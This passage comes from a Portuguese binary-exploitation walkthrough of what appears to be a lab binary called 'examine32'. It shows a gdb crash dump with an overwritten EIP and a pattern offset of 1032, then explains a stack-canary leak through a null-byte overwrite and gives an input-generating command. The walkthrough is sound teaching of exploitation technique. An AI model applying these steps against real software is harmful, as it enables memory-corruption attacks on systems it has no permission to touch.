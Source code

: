 				Program received signal SIGSEGV, Segmentation fault.  
				\[ — — — — — — — —— — — — — registers — — — — — — — — — — — — — — -\]  
				EAX: 0x0  
				EBX: 0x6e41246e (‘n$An’)  
				ECX: 0xf7f858a4 → 0x0  
				EDX: 0xffffffff  
				ESI: 0x436e416e (‘nAnC’)  
				EDI: 0x412d6e41 (‘An-A’)  
				EBP: 0x6e41286e (‘n(An’)  
				ESP: 0xffffd650 (“An)AnEAnaAn0AnFAnbAn1AnGAncAn2AnHAndAn3AnIAneAn4AnJAnfAn5AnKAngAn6AnLAnhAn7AnMAni
				An8AnNAnjAn9AnOAnkAnPAnlAnQAnmAnRAnoAnSAnpAnTAnqAnUAnrAnVAntAnWAnuAnXAnvAnYAnwAnZA
				nxAnyAnzAC%ACsACBAC$ACnACCAC-AC(ACDAC”…)  
				EIP: 0x3b6e4144 (‘DAn;’) # EIP sobrescrito  
				EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)  
				\[ — — — — — — — — — — — — — -code — — — — — — — — — — — — — — — -\]  
				Invalid $PC address: 0x3b6e4144  
				\[... cortado\]  
				Stopped reason: SIGSEGV  
				0x3b6e4144 in ?? ()  
				gdb-peda$ pattern\_offset “DAn;” # procurando o offset de “DAn;”   
				DAn; found at offset: 1032 # achamos o offset

#### Lendo o Canary

Precisamos de alguma forma ler o conteúdo do Canary para coloca-lo certo na stack.   
Depois de receber um _input_ o programa executa o código abaixo, que transforma a array para URL Encoding.

				for (i=0; i < strlen(s); i++)  
					 printf("%%%2X", s\[i\]);

![](img/1__ApAL8LqAtt__k__oIK8DiK__A.png)

Essa é a _stack_ normal do programa, com o Canary logo depois da _array_ que estamos sobrescrevendo. Note os bytes nulos no final dos dois.

Uma _string_, sendo uma _array_ de _chars_, tem seu término delimitado pelo byte nulo. Se sobrescrevermos apenas o _nullbyte_ da string “_s”_ o _strlen_ continuará contando até encontrar o outro _nullbyte_ do Canary, assim, conseguiremos _printar_ o valor do Canary.  
Segue :

				$ python -c “print ‘A’\*1001” > aaa # 1001 é o tamanho da array  
				$ ./examine32 < aaa  
				\[... cortado\]  